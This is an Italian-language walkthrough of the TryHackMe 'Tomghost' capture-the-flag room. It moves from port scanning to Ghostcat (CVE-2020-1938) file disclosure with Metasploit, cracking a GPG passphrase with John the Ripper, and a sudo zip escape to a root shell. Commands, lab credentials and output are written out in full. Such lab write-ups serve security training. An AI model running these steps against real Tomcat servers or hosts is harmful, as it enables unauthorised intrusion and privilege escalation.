

# Tomghost

[https://tryhackme.com/room/tomghost?vccr=2](https://tryhackme.com/room/tomghost?vccr=2)

Procediamo con il configurare della macchina di attacco `kali` 

```bash
kali@kali:~/Desktop/CTF/tomghost$ echo "10.129.171.179 tomghost.local" | sudo tee -a /etc/hosts
10.129.171.179 tomghost.local
```

E quindi procediamo come di consueto con l’enumerazione dei servizi presenti nella macchina

```bash
                                                                                                                                                                                                                 
kali@kali:~/Desktop/CTF/tomghost$ sudo nmap -sS -sV -sC -O -T5 -p- tomghost.local -oN nmap_result.txt
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-03 06:38 -0400
Nmap scan report for tomghost.local (10.129.171.179)
Host is up (0.060s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (96%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.76 seconds
```

Il sistema è quasi sicuramente `Linux` con un kernel `3.x` 

| Servizio | Porta | Versione | Note |
| --- | --- | --- | --- |
| ssh | 22 | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8  |  |
| - | 53tcp/udp | - | Non identificabile, normalmente però è DNS |
| ajp13 (Apache Jserv) | 8009 | Apache Jserv (Protocol v1.3) |  |
| http | 8080 | Apache Tomcat 9.0.30 | Vulnerabile a CVE-2020-1938 |

Procediamo con il classico enum delle directory/file accessibili dal servizio web

```bash
kali@kali:~/Desktop/CTF/tomghost$ gobuster dir -u http://tomghost.local:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".txt,.java,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://tomghost.local:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,java,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
docs                 (Status: 302) [Size: 0] [--> /docs/]
examples             (Status: 302) [Size: 0] [--> /examples/]
favicon.ico          (Status: 200) [Size: 21630]
host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
manager              (Status: 302) [Size: 0] [--> /manager/]
Progress: 19000 / 19000 (100.00%)
```

Il servizio è vulnerabile a Ghostcat (CVE-2020-1938) una vulnerabilità che permette di leggere file sensibili.

Utilizziamo quindi `Metasploit` , apriamo con `msfconsole` e

1. **Cerchiamo** la CVE: `msf > search cve-2020-1938` 
2. **Carichiamo** il PoC: `use auxiliary/admin/http/tomcat_ghostcat` 
3. **Guardiamo** i **parametri** che si aspetta: `msf auxiliary(admin/http/tomcat_ghostcat) > show options` 
4. **Impostiamo RHOSTS:** `setg RHOSTS tomghost.local` 
5. Lanciamo: `run` 

Otteniamo 

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

Dove `syfuck` e `8730281lkjlkjdqlksalks` sono le credenziali

```bash
kali@kali:~/Desktop/CTF/tomghost$ ssh skyfuck@tomghost.local
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
skyfuck@tomghost.local's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Sat Oct  3 04:11:38 2026 from 192.168.142.32
skyfuck@ubuntu:~$ 

```

```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
skyfuck@ubuntu:~$ 
```

Possiamo ricavare la prima key da

```bash
skyfuck@ubuntu:~$ cat /home/merlin/user.txt 
THM{*******************}
```

Ci sono due file

```bash
skyfuck@ubuntu:~$ file credential.pgp tryhackme.asc 
credential.pgp: data
tryhackme.asc:  ASCII text, with CRLF line terminators
skyfuck@ubuntu:~$ 

```

Sembra che `tryhackme.asc` sia una chiave OpenPGP e `credential.pgp` un messaggio criptato con la chiave

```bash
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: key C6707170: secret key imported
gpg: /home/skyfuck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
skyfuck@ubuntu:~$ gpg --list-key
/home/skyfuck/.gnupg/pubring.gpg
--------------------------------
pub   3072D/C6707170 2020-03-11
uid                  tryhackme <stuxnet@tryhackme.com>
sub   1024g/6184FBCC 2020-03-11

skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase: 
```

Ci chiede una  passphrase, che noi possiamo brute-forzare con `John The Ripper` 

```bash
kali@kali:~/Desktop/CTF/tomghost$ gpg2john key > hash.txt                                                                                                

File key
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/tomghost$ cat hash.txt 
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::key
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/tomghost$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2026-10-03 08:05) 1.724g/s 1851p/s 1851c/s 1851C/s alexandru..trisha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                  
kali@kali:~/Desktop/CTF/tomghost$ 
```

La password è quindi `alexandru` e ora possiamo decifrare ciò che c’è scritto nel `credential.pgp` 

```bash
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
skyfuck@ubuntu:~$ 
```

C’è un nuovo utente `merlin`  con password `asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

L’utente `merlin` può eseguire `zip` con permessi root senza inserire la password di `root` 

È dunque possibile aprire una shell come `root` usando proprio `zip` 



```bash
merlin@ubuntu:~$ sudo zip /home/merlin/exploit.zip /etc/hosts -T -TT '/bin/sh #'
  adding: etc/hosts (deflated 31%)
# ls
user.txt  ziKVRa0Z
# whoami
root
# bash    
root@ubuntu:~# cd /root/
root@ubuntu:/root# ls
root.txt  ufw
root@ubuntu:/root# cat root.txt 
THM{*********}
root@ubuntu:/root# 
```